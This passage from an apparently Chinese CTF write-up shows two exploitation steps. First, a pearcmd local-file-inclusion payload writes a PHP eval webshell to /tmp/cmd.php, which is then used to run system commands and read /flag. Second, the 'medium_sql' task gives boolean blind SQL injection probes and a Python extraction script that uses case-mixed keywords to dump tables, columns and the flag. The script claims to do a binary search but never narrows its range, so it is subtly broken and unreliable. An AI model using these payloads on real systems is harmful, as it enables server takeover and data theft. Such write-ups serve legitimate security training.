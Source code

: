 ```
?+config-create+/&amp;file=/usr/local/lib/php/pearcmd&amp;/&lt;?=@eval($_REQUEST[8]);?&gt;+/tmp/cmd.php

```

<br/> 然后访问包含一句话木马的cmd.php文件，执行远程命令。

```
?file=/tmp/cmd&amp;8=system("ls+/");

```

```
?file=/tmp/cmd&amp;8=system("cat+/flag");

```

### 七、medium_sql

1.根据题目可以判断是sql注入，先按照常规的测试方法，判断出是个布尔盲注。

```
?id=TMP0919' And if(1&gt;0,1,0) --+
?id=TMP0919' And if(0&gt;1,1,0) --+

```

<br/>  

<br/> 发第一个，有回显，第二个，没回显，说明页面可以根据if判断的结果回显两种（真假）内容，因此是布尔盲注。<br/> 2.编写盲注脚本，用二分查找。

```
import requests
import time


def condition(res):
    if 'Physics' in res.text:
        return True
    return False


result = ''
_url = 'xxxxx'
for _time in range(1, 1000):
    print("time:%d" % _time)
    left = 32
    right = 128
    while right &gt; left:
        mid = (left + right) // 2
        # 获取当前库表名
        # url = f"{_url}?id=TMP0919' And if((((Ord(sUbstr((Select(grouP_cOncat(table_name))fRom(infOrmation_schema.tables)whEre((tAble_schema) In (dAtabase()))) fRom {_time} FOr 1))))In({mid})),1,0)%23"
        # 获取字段名
        # url = f"{_url}?id=TMP0919' And if((((Ord(sUbstr((Select(grouP_cOncat(column_name))fRom(infOrmation_schema.columns)whEre((tAble_name) In ('here_is_flag'))) fRom {_time} FOr 1))))In({mid})),1,0)%23"
        # 获取字段值
        url = f"{_url}?id=TMP0919' And if((((Ord(sUbstr((Select(flag)fRom(here_is_flag)) fRom {_time} FOr 1))))In({mid})),1,0)%23"
        # 防止请求速率过快
        time.sleep(0.2)
        res = requests.get(url=url)
        if condition(res):
            result += chr(mid)
            print(result)
            break
```